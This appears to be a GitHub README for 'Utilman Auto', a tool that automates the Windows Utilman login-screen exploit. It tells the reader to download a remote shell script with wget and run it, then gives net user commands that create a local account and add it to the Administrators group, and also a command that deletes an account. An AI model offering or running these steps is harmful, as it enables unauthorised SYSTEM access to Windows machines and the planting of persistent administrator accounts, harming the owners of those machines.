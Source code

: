 # Utilman Auto
## Automatically perform the Utilman Exploit
```
wget nullsoepic.github.io/utilman/uexp.sh
sh uexp.sh
```

## Create / Delete windows account
**Create Account**
```
net user username yourpassword /add
net localgroup Administrators username /add
```

**Delete Account**
```
net user username /delete
```
***Note:** Adding or removing accounts may require a restart or some waiting time!*

*If you would like to support this you can [donate!](https://nulldev.ml/kofi)*
